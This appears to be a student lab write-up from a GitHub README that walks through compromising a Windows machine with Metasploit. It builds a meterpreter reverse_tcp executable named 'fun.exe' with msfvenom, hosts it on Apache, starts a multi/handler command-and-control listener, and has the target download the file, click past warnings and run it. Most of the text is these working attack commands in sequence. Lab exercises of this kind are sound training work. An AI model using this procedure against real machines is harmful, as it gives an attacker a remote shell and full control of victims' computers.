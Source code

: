 ```bash
+------------------------------------------------------------+

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="1137" height="556" alt="image" src="https://github.com/user-attachments/assets/094cd334-714d-4c14-8da2-82c3aa0c5760" />

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="1141" height="226" alt="image" src="https://github.com/user-attachments/assets/078eb054-8737-48f7-a9c6-910e636b6e27" />

copy the fun.exe into the apache ```/var/www/html ```folder

<img width="502" height="112" alt="image" src="https://github.com/user-attachments/assets/127a523f-be0c-4332-b7c7-3e96a4e6f509" />

Start apache server ```sudo systemctl apache2 start``` 

<img width="558" height="178" alt="image" src="https://github.com/user-attachments/assets/78f020b2-7a6c-42b1-b5ea-1181075acc57" />

Check the status of apache2 ```sudo apache2 status```

<img width="1900" height="628" alt="image" src="https://github.com/user-attachments/assets/d1e048f1-eb3c-4fa7-a82b-0449eebbb39f" />

Invoke msfconsole:

<img width="1015" height="833" alt="image" src="https://github.com/user-attachments/assets/3bc1a59a-7268-428d-8c9b-33ef7fdd1cb1" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="1372" height="823" alt="image" src="https://github.com/user-attachments/assets/1cbc611b-a9b5-47bf-b625-5bc27cb0b089" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="981" height="311" alt="image" src="https://github.com/user-attachments/assets/df073433-9fe3-4a92-9236-424b6bf97458" />


<img width="1918" height="293" alt="image" src="https://github.com/user-attachments/assets/6f12e272-7fc1-40c8-b17a-344e703c9975" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

